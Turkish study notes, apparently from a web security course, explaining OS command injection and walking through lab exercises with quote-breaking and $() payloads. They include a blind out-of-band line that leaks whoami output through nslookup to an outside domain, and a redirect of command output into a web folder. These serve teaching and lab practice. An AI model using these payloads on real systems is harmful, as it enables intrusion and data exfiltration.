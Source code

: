 <h1 align="center">OS Command Injection</h1>

- Günümüz web uygulamalarının istisnasız, OS ile bir iletişimi vardır ve buna da ihtiyacı vardır. Bu uygulamanın belli durumlarda işletim sistemindeki diğer programlarla da etkileşime geçmesi gerekmektedir.
- Bir web sitesi bir işi 60sn içerisinde tamamlayamıyor ise, background job iş olarak yapma eğilimindedir.
- 60sn yi geçerse, alttaki TCP session’ı kopabilir tabi gönderilen header’ın connection-type ına göre belirleniyor bu.
- Burdaki web uygulaması yapacağı işin belli birtakım şartlarının olması gerekli:
    1. Req-response döngüsü içinde cevap üretemeyeceğin kadar yoğun  bir işin varsa. Bu işi, kullanıcıdan alıp background job başlatıp schedule ediyor, işim bitince ben sana mail atarım diyor. Bu iş için OS ile iletişim kurabilmesi için arkada belli başlı kodların yazılması gerekiyor.
- Bir HTTP req-response cycle içerisinde bitmeyen ama işletim sisteminin arkada yapmaya devam ettiği işlere asenkron proccessler denir.
#### İşletim Sistemi üzerinde komut çalıştırmaya ihtiyaç duyulan her noktada bir Command Line Injection bulunabilir.
- Kullanıcıdan bir parametre alırsan, bu parametreyi güvensiz bir şekilde koyarsan Command Injection olur. Alınan input kullanılan yer :
    - Output, HTML içeriğinde ise ve encoding yapmıyor ise XSS,
    - SQL sorgusunda kullanılıyorsa ve parameter bining yapmıyorsa SQLi,
    - İşletim sisteminde çalışacak komutun bir parçasında güvenli bir şekilde yer almıyorsa OS Command Injection.
#### PHP dilinde ` işareti, komut satırında komut çalıştırıyor.
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/fe680a56-8dd4-41a6-ba3d-689b9e0a4852)
- "; ile kodu durdurup geri kalanında istediğini yazabilirsin
```sh
sleep 100; 
	komutu mesela
```
## Linux Tips
```sh
echo BENIM ADIM "MEHMET $(sleep 100) INCE"
```
- buradaki olay aslında çift tırnak olması
	- Linux işletim sistemi çift tırnak içerisinde $() işareti içinde mevzu gördüğünde string interpolation gerçekleştiriyor
	- Ortadaki komutun çıktısı tırnakların içine string olarak gidiyor
- " ve ; gibi işaretler input validationa takılır genellikle.
#### " ile kapatıp istedğin kodu yazabilirsin ama işte engele takılır.
- Windowsta da Powershell'i kontrol edebiliyorsan orda da yarar bu
#### Tek tırnak kullanmak gerekiyor ama yine tek tırnak kapatıp istediğin kodu enjekte edebilirsin.
### Nihai payload kodu şu şekilde:
```sh
’$(sleep 100)’
```
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/745a4f4f-de92-4544-97cd-3e8a2ff42d9b)
- Çalıştırdığın komutun çıktısını HTML içeriğinde görebiliyorsan sıkıntı yok.
- Asenkron yapılarda ise, Blind OS Command Injection gerçekleşir. Bunun için en güzel yöntem “nslookup” tır. Hem windowsta hem linuxta ortak komuttur.
    - nslookup google.com
    - Bu komut çalıştırıldığında sistemdeki default name server ne ise ona gider. Oradan root DNS’e gider, sonrasında senin dns sunucuna gelir ve loglarında görmeye başlarsın.
    - echo BENIM ADIM ‘MEHMET ‘$(nslookup $(whoami).mehmetince.net)’ INCE’
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/261b735a-c9a4-422a-8b4a-22be62a1a887)
- whoami içinde boşluk, değişik karakterler falan olmamalı. Domain, RFC protokolüne uygun bir şeyler olması lazım.
## Lab: OS Command Injection, Simple Case
- Burp suite ile bir ürün sorgusunun trafiğini yakalıyoruz.
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/0a7a71eb-ee3b-4b47-bf5d-ac611b79b653)
- Stok kontrolü isteği gelince, sunucu arka taraftaki stok kontrolü ile ilgili servise gidiyor yani komut satırında komut çalıştırıyor.
- Çıktı olarak sunucu integer bir değer bekliyor o yüzden whoami çalışmadı ama sleep 10 komutu çalıştı. Tırnak koymadan yaptı
- tek tırnak “ veya ‘ koyunca Syntax hatası veriyorsa, arka tarafa parametreler yalın halde gidiyor demektir: checkstock.sh 1 2
- “” şeklindeyse, ‘ konulduğunda syntax hatası vermemesi lazım.
- ‘’ şeklindeyse, “ konulduğunda hata vermemesi lazım.
- ; echo 123; yaptığında çıktı verdi
    - [checkstock.sh](http://checkstock.sh) 1 $(whoami) yapmak yerine yani parametreye yazmak yerine,
    - proccessin outputuna veriyi koymak gerekiyor yani, std.output’a gelen data bu diyecek adam
    - pipe atıp | echo $(whoami) yapabilirsin
## Lab: Blind OS Command Injection with time delays
- Feedback verme kısmında senin formu save ediyor arka tarafa.
    - Tek tırnak ‘ atınca save etti, çift tırnak “ atınca save edemedi
    - Demek oluyor ki, arka taraftaki komut çift tırnaklar “ arasına alınmış.
    - $(sleep 10)
## Lab: Blind OS Command Injection with output redirection
![image](https://github.com/grealyve/MDISec-Web-Security-and-Hacking-Notes/assets/41903311/f10f5a5d-7538-4f0b-9318-88231e067cef)
- Zaafiyet BLIND ise, kendi komutunun çıktısı yansımıyor fakat SLEEP ile zaafiyeti doğrulayabilirsin.
- Kendi komutunun çıktısını bir pathe redirection yaparsan ve o path’e de web üstünden erişebiliyor isen böylece Command Injectionu zaafiyetini sömürebilirsin.
- inputların hangisini kontrol ettiğimizi bilmiyoruz
- gidip en sona :
    - $(whoami%20>%20/var/www/images/mdisec.txt)
    - $(whoami%20>%20/var/www/images/mdisec.txt)
    - Sayfanın kaynak kodlarında .jpeg, .png gibi dosyalara bakıp seninki de orada mı diye kontrol edebilirsin.
    - payloadı yazdıktan sonra ana sayfadaki fotoğrafları yükleme URL’i üstünden GET isteğinden filename=mdisec.txt yaptığında çözülür.
    - Endpoint üstünden yüklendiği için böyle tasarlanmış lab. Fullpath verip de görebilirsin gerçek hayatta.
